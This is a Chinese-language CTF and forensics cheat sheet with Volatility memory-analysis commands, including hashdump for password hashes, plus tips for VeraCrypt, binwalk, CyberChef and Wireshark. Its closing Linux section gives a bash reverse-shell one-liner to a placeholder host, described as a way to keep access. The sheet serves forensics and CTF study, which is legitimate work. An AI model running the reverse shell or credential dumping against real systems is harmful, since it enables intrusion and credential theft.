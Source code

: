 ### Volatility

取证工具

```Bash
volatility.exe -f image.vmem imageinfo # 查看镜像的系统信息 获取Win7SP1x64值替换
volatility.exe -f image.vmem --profile=Win7SP1x64 pslist # 查看进程
volatility.exe -f image.vmem --profile=Win7SP1x64 svcscan # 查看服务
volatility.exe -f image.vmem --profile=Win7SP1x64 netscan # 查看网络连接
volatility.exe -f image.vmem --profile=Win7SP1x64 cmdscan # 查看历史cmd命令
volatility.exe -f image.vmem --profile=Win7SP1x64 cmdline # 查看进程命令行参数
volatility.exe -f image.vmem --profile=Win7SP1x64 filescan # 查找所有文件列表
volatility.exe -f image.vmem --profile=Win7SP1x64filescan | findstr ".txt\|.doc\|.zip\|.png" # 相关信息匹配查询
volatility.exe -f image.vmem --profile=Win7SP1x64 filescan | findstr "flag" # 查flag文件
volatility.exe -f image.vmem --profile=Win7SP1x64 privs # 显示进程权限
volatility.exe -f image.vmem --profile=Win7SP1x64 envars # 显示环境变量
volatility -f 1.vmem --profile=Win7SP1x64 hashdump # 查看用户名密码

# 提取文件 -Q 指向内存地址
volatility -f image.vmem --profile=Win7SP1x64 dumpfiles -Q 0x7a09f20 -D D:/out_put_dir
```

### VeraCrypt

当文件是**加密卷**时，可以通过该软件进行磁盘挂载，查看其中文件【点击磁盘，`加载`】

### binwalk

```Bash
binwalk xx.xx
# 分离文件
binwalk -e xx.xx
```

### CyberChef

有终端显示为中文的字节可以使用CyberChef查看

### Wireshark

- 跟踪流的编号查看是否有可疑数据
- 选择原始数据另存为，即使包含其他数据也可解压

### Linux

```bash
# 反向shell连接-维持权限
bash -i > & /dev/tcp/x.x.x.x/port 0 > &1
# -i 交互式
# > & 将标准输出与标准错误重定向, 通过tcp协议连接到目标地址端口
# 标准输入重定向到标准输出
```
